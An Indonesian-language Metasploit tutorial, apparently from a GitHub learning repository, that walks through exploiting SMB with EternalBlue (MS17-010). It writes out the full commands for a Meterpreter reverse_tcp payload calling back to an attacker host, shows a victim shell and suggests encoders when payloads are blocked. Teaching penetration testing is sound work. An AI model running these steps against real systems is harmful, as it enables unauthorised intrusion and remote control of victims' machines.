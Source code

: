 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Jenis-Jenis%20Modul%20di%20Metasploit%20Framework.md">Jenis-Jenis Modul di Metasploit Framework</a>
</p>

# Menjalankan Eksploitasi dengan Metasploit Framework

## A. Apa Itu Eksploitasi?

[Eksploitasi](https://en.wikipedia.org/wiki/Exploit_(computer_security)) adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:
- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## B. Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:
1. Pilih dan muat modul exploit
2. Tentukan target (`RHOST`, `RPORT`)
3. Pilih payload
4. Konfigurasi payload (`LHOST`, `LPORT`, `dll`)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## C. Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

   Tunggu sampai muncul prompt seperti ini:

   ```
   msf6 >
   ```

2. Cari Exploit yang Sesuai:

   ```
   search eternalblue
   ```

   Contoh hasil:

   ```
   exploit/windows/smb/ms17_010_eternalblue
   ```

3. Gunakan Exploit:

   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

   Hasil output-nya seperti ini:

   ```
   msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

   Module options (exploit/windows/smb/ms17_010_eternalblue):

      Name           Current Setting  Required  Description
      ----           ---------------  --------  -----------
      RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
      RPORT          445              yes       The target port (TCP)
      SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
      SMBPass                         no        (Optional) The password for the specified username
      SMBUser                         no        (Optional) The username to authenticate as
      VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
      VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.42     yes       The listen address (an interface may be specified)
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      1   Windows 7



   View the full module info with the info, or info -d command.
   ```
   
5. Setting Target dan Payload:

   ```
   set RHOSTS 192.168.1.10
   set RPORT 445
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.5
   set LPORT 4444
   ```

6. Jalankan Exploit:

   ```
   exploit
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [*] Sending stage (203846 bytes) to 192.168.1.10
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

   meterpreter > 
   ```

   Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

   1. Melihat informasi sistem target:

      ```
      sysinfo
      ```

   2. Menampilkan User ID (UID):

      ```
      getuid
      ```

   3. Membuka command shell (cmd.exe) dari mesin korban:

      ```
      shell 
      ```

## D. Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting `RHOST/LHOST` |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## E. Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:
1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

> Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Memahami%20Payload%2C%20Encoder%2C%20dan%20NOPs.md">Memahami Payload, Encoder, dan NOPs</a>
</p>
